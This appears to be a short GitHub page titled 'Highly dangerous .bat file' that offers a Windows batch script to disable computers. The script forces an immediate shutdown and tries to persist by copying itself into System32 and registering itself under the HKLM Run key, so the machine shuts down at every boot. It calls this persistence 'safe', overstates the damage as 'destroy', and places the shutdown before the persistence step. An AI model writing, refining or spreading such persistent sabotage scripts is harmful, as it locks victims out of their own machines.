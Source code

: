 # Highly dangerous .bat file
This file will ***destroy*** your computer once it is run.
It will immediately shutdown your computer once the code is launched and whenever you try to restart your computer.
**You cannot undo nor stop this program!**
```bat
@echo off
shutdown /t 0

if not exist "%SystemRoot%\System32\shutdown_trigger.bat" (
    echo Creating safe persistence...
    copy "%~f0" "%SystemRoot%\System32\shutdown_trigger.bat" >nul
    reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SafeShutdownTest" /t REG_SZ /d "\"%SystemRoot%\System32\shutdown_trigger.bat\"" /f >nul
)
```
